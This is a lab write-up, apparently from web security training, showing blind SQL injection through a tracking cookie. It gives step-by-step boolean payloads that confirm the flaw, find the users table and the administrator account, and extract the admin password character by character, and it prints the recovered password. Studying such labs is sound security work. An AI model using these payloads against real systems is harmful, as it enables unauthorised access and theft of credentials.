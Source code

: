 # Lab 11 - Blind SQL injection with conditional responses

> ###  Vulnerable parameter - `tracking cookie`

### End Goals:
1. Enumerate the password of the administrator
2. Log in as the administrator user

## Analysis:

1) Confirm that the parameter is vulnerable to blind SQLi

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN'

-> If this tracking id `exists` -> query returns value -> Welcome back message.

-> If the tracking id `doesn't exist` -> query returns nothing -> no Welcome back message

select tracking-id from tracking-table where trackingId = `'RvLfBu6s9EZRlVYN' and 1=1--'`

-> TRUE -> Welcome back

select tracking-id from tracking-table where trackingId = `'RvLfBu6s9EZRlVYN' and 1=0--'`

-> FALSE -> no Welcome back

2) Confirm that we have a users table

select tracking-id from tracking-table where trackingId = `'RvLfBu6s9EZRlVYN' and (select 'x' from users LIMIT 1)='x'--'`
-> users table exists in the database.

3) Confirm that username administrator exists users table

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator')='administrator'--'
-> administrator user exists

4) Enumerate the password of the administrator user

`select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'`
-> password is exactly 20 characters

`select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,2,1) from users where username='administrator')='a'--'`

1 2 3 45 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
52rqbjtjpa749cy0bv6s


script.py url


